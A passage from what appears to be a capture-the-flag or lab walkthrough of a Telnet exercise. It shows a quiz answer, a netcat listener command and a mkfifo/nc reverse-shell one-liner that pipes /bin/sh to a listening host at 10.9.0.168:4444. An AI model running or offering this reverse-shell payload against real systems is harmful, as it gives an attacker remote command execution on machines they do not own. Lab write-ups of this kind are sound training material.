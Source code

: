 ```bash
nc -lvnp [listening port]
```

What would the command look like for the listening port we selected in our payload?

***Correct answer: nc -lvnp 4444***

Great! Now that's running, we need to copy and paste our msfvenom
payload into the telnet session and run it as a command.
Hopefully- this will give us a shell on the target machine!

*Solution:* First, I had to turn off my Firewall, so that I can receive incoming
connection from the Telnet session (on Ubuntu, I used GUFW GUI).
Because my Firewall was set to "Deny" all incoming connections.

![firewall](firewall.png)

Then run the netcat listener

```bash
nc -lvnp 4444
```

Now run the payload inside the Telnet session

```bash
.RUN mkfifo /tmp/ejqzmj; nc 10.9.0.168 4444 0</tmp/ejqzmj | /bin/sh >/tmp/ejqzmj 2>&1; rm /tmp/ejqzmj
```
